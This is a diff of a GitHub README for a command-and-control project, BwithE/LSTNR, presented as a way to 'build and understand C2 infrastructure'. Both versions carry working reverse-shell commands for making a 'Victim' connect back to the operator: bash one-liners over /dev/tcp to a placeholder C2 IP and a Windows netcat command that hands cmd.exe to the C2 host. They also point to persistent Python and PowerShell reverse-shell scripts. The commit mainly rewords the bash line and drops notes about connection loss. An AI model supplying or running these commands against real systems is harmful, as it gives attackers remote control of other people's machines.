

Before and after one commit to BwithE/LSTNR, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -25,8 +25,7 @@ Build and understand C2 infrastructure.
 3. Have Victim connect to C2
     - Linux / MacOS
       - BASH
-      - This will drop the moment the C2 server 'drops'
-          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
+          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
       - Python reverse shell
           - This will continue to connect to the C2 server even after it 'drops'
           - Modify the 'SERVER_IP = ' in `stardestroyer.py`
@@ -36,7 +35,6 @@ Build and understand C2 infrastructure.
           - `./stardestroyer`
     - Windows
         - NETCAT
-        - This will drop the moment the C2 server 'drops'
             - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
         - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
             - On Kali
@@ -60,8 +58,7 @@ Build and understand C2 infrastructure.
 2. Have Victim connect to C2
     - Linux / MacOS
       - BASH
-      - This will drop the moment the C2 server 'drops'
-          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
+          - `bash -c "bash -i >& /dev/tcp/<C2-SERVER-IP>/9999 0>&1"`
       - Python reverse shell
           - This will continue to connect to the C2 server even after it 'drops'
           - Modify the 'SERVER_IP = ' in `stardestroyer.py`
@@ -71,7 +68,6 @@ Build and understand C2 infrastructure.
           - `./stardestroyer`
     - Windows
         - NETCAT
-        - This will drop the moment the C2 server 'drops'
             - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
         - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
             - On Kali
```
